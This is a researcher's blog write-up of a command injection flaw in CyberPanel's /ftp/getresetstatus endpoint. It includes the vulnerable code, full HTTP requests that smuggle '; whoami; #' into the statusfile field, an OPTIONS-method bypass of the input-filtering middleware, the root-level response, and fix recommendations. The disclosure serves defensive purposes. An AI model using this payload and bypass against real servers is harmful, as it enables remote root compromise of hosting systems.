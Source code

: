 ```yaml
---
title: "Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing"
published: 2024-10-23
description: "A short story about how I found my first 0day."
tags: [Source Code Analysis, Command Injection, RCE, 0day]
category: Web Security
image: ./cover.jpeg
draft: false
---
```


# Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing

In the ever-evolving landscape of web applications, security remains a top concern. As an avid user and supporter of open-source projects, I was drawn to CyberPanel, a widely-used control panel for managing web hosting and server environments. Little did I know that my exploration would lead me down a rabbit hole, revealing a critical command injection vulnerability!

## Setting the Scene: What is CyberPanel?

CyberPanel is an open-source web hosting control panel that aims to simplify the management of servers. It's packed with features, offering everything from file management to SSL management, making it a go-to choice for many developers and system administrators. However, like any powerful tool, it requires vigilance to ensure security measures are robust.

## The Discovery: Unearthing the Vulnerability

While diving into the functionality of CyberPanel, I stumbled upon the `/ftp/getresetstatus` endpoint. At first glance, it appeared innocuous enough, handling user requests with ease. However, a closer inspection revealed a critical flaw: this endpoint processes user input from the `statusfile` parameter without proper validation or sanitization, creating a tempting opportunity for remote command injection.

## The Vulnerable Code

The vulnerability exists in the `/ftp/getresetstatus` endpoint, which processes user input from the `statusfile` parameter. The code directly incorporates this input into a shell command without proper validation or access control. Here’s a simplified version of the vulnerable code:

```python
def getresetstatus(request):
    data = json.loads(request.body)
    statusfile = data['statusfile']
    installStatus = ProcessUtilities.outputExecutioner("sudo cat " + statusfile)
    ...
```

As illustrated, the `statusfile` parameter is directly used in a shell command, creating a significant opportunity for remote command injection. Moreover, this endpoint lacks proper **Access Control Lists (ACLs)**, leaving it vulnerable to unauthorized access.

### Step 1: Initial Testing

My journey began by testing the `/ftp/getresetstatus` endpoint using a POST request. I crafted a request designed to execute the `whoami` command, ensuring to include the necessary CSRF token for validation:

```http
POST /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

Upon sending the request, the security middleware sprang into action and blocked it, returning the following response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Accept-Language, Cookie
Content-Language: en
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Content-Length: 269
Date: Wed, 23 Oct 2024 10:52:35 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"error_message": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >.", "errorMessage": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >."}
```

The middleware effectively checked for special characters in POST request bodies, but it did **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 2: Analyzing the Security Middleware

Curious about the middleware's behavior, I dug deeper into the source code. The relevant security middleware checks for specific characters in POST request bodies. Here’s a simplified version of the security middleware code:

```python
class secMiddleware:
    def __call__(self, request):
        if request.method == 'POST':
            try:
                data = json.loads(request.body)
                for key, value in data.items():
                    # Check for special characters
                    if any(char in value for char in [';', '&', '|', '`']):
                        # Log and block the request
                        return HttpResponse("Invalid input detected.")
            except Exception as msg:
                # Handle exceptions
                pass
        return self.get_response(request)
```

The middleware effectively checks for potentially harmful characters in POST requests, but it does **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 3: The Bypass Discovery

Realizing that the middleware was not enforcing the same checks for OPTIONS requests, I decided to exploit this oversight. I crafted an OPTIONS request with my malicious payload, ensuring to include all relevant headers just like the POST request:

```http
OPTIONS /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

### Step 4: Triggering the Vulnerability

To my surprise, the OPTIONS request successfully passed through the security middleware without any validation, executing the command on the server. This allowed me to retrieve sensitive information, and I received the following response confirming the successful exploitation:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-XSS-Protection: 1; mode=block
X-Frame-Options: sameorigin
Content-Security-Policy: style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.jsdelivr.com https://cdnjs.cloudflare.com https://maxcdn.bootstrapcdn.com https://cdn.jsdelivr.net
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Vary: Accept-Language, Cookie
Content-Language: en
Content-Length: 64
Date: Wed, 23 Oct 2024 10:57:29 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"abort": 0, "error_message": "None", "requestStatus": "root\n"}
```

In this response, the `requestStatus` indicates that the command was executed with root privileges, highlighting the severity of the vulnerability.

## Recommendations for Fixing the Vulnerability

Having discovered this vulnerability, it’s crucial to act quickly to secure the application. Here are a few recommendations for CyberPanel developers:

1. **Implement Input Validation**: Ensure all user inputs are validated and sanitized before being used in any shell commands.

2. **Utilize Access Control Lists (ACLs)**: Add ACLs to the `/ftp/getresetstatus` endpoint to restrict access and limit exposure to potential exploits.

3. **Review Other Endpoints**: Conduct a thorough audit of other sensitive endpoints to identify any similar vulnerabilities or missing ACLs.

4. **Restrict HTTP Methods**: Limit the allowed HTTP methods for sensitive endpoints. In particular, restrict the `/ftp/getresetstatus` endpoint to only allow POST requests, which should also pass through strict input validation.

5. **Enhance Security Middleware**: Update the security middleware to inspect all HTTP methods, including OPTIONS, to ensure no bypassing of security checks is possible.

## Conclusion: The Fun in Finding Flaws

Finding this vulnerability in CyberPanel was both a challenge and a rewarding experience. It not only honed my skills in security testing but also reminded me of the importance of community in open-source projects. I encourage other developers and security researchers to dive into CyberPanel and similar applications—who knows what hidden gems (or vulnerabilities) you might find!

Happy testing!